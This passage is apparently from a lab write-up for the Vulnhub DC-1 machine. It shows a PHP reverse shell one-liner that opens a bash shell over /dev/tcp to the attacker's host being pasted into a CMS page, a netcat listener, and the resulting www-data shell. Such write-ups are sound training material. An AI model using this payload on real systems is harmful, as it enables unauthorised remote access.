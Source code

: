 Now enter a title. Paste a PHP reverse shell code into the body. Enable the page in the menu panel.
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.15/1234 0>&1'");?>
```
![Image](/assets/img/WriteUp/Vulnhub/DC1/Pasted image 20230326143435.png){: width="700" height="400" }

Start a netcat listener on port 1234.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
Scroll down and click on the `Preview` button.
![Image](/assets/img/WriteUp/Vulnhub/DC1/Pasted image 20230326142654.png){: width="700" height="400" }


Wait a bit, there will pe a message that the preview is ready.
![Image](/assets/img/WriteUp/Vulnhub/DC1/Pasted image 20230326143206.png){: width="700" height="400" }

Then go back to the reverse shell.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.2.30.
Ncat: Connection from 10.0.2.30:33312.
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami;id;hostname
whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
DC-1
www-data@DC-1:/var/www$ 

```
From here the attack could be the same as the manual exploitation.